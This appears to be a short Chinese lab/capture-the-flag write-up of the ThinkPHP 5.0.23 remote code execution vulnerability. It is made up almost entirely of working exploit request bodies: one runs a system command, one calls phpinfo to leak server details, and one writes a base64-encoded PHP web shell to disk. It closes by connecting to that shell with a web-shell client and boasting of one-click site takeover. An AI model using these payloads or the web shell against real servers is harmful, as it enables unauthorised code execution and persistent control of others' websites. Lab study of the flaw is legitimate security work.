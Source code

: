 # Thinkphp5.0.23 远程代码执行 by [Frivolous-scholar](https://github.com/Frivolous-scholar)

## 漏洞概述

低于5.0.23版本都存在远程代码执行

## write up

首先打开靶场

![1](./1.png)

利用POC来拿flag

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls /tmp`

![2](./2.png)

使用phpinfo函数验证来获取敏感信息

`_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1`

![3](./3.png)

如果要上传 shell ,传 shell 的时候，要 把 eval 替换成 assert  并进行base64转义。对

`aaa<?php @assert($_POST['xss']);?>bbb` 进行base64转义，

转义完成后的POC

`_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=echo -n YWFhPD9waHAgQGFzc2VydCgkX1BPU1RbJ3hzcyddKTs/PmJiYg== | base64 -d > shell1.php
`

![4](./4.png)

成功访问,说明上传成功。![5](./5.png)用菜刀去连接。

![6](./6.png)

![7](./7.png)

接上来上大招，一键日站。

![8](./8.png)